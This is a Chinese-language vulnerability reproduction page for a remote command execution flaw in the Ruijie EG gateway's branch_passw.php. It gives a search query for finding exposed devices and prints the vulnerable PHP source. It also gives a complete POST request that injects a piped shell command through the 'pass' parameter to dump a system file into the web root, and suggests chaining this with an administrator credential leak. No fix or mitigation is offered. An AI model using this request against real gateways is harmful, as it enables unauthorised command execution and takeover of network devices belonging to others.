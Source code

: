 # 锐捷 EG易网关 branch_passw.php 远程命令执行

## 漏洞描述

锐捷EG易网关 branch_passw.php存在命令执行漏洞，配合 锐捷EG易网关 管理员账号密码泄露漏洞 达到RCE控制服务器

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)

漏洞文件 branch_passw.php

```php
<?php

/**
 * 分支密码的统一管理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);  //定义系统目录分隔符
define('AROOT', dirname(__FILE__) . DS);    //定义入口所在的目录
include_once(dirname(dirname(__FILE__)) . DS . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    private $filename;
    private $cli = "evpn-server config all-clients file \"/data/evpn/cfg_pwd.text\"";

    function __construct() {
        parent::__construct();
        $this->filename = DS . "data" . DS . "evpn" . DS . "cfg_pwd.text";
    }

    /**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
    
    /**
     * 关闭集中控制功能
     */
    function closeAction(){
        evpnShell("/usr/local/evpn/server/cfg_pass.sh disable");
    }

    /**
     * 获取分支密码
     */
    function getAction() {
        $command = "/usr/local/evpn/server/echo_pass.sh";
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => isset($content[0]) && $content[0] === "" ? "" : $content);
        json_echo($data);
    }
    
    /**
     * 获取分支密码设置列表
     */
    function listAction(){
        $province = p("province");
        $city = p("city");
        $district = p("district");
        $shell = "/usr/local/evpn/server/sh_clients_pass.sh";
        if($province !== FALSE && $province != ""){
            $shell .= " province ".iconv("UTF-8", "GB2312//IGNORE", $province);
        }
        if($city !== FALSE && $city != ""){
            $shell .= " city ".iconv("UTF-8", "GB2312//IGNORE", $city);
        }
        if($district !== FALSE && $district != ""){
            $shell .= " district ".iconv("UTF-8", "GB2312//IGNORE", $district);
        }
        header("Content-type: text/html;charset=gbk");
        header("Cache-Control: no-cache, must-revalidate");
        header("Pragma: no-cache");
        echo `$shell`;
    }

}

include_once dirname(dirname(__FILE__)) . '/init.php';     //mvc架构初始化
```



其中漏洞部分



```php
/**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
```



`&pass`变量可控并且无过滤执行命令使用 `|` 即可绕过



发送请求包



```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```



再访问



```plain
http://xxx.xxx.xxx.xxx/test_test.txt
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-29.png)



## 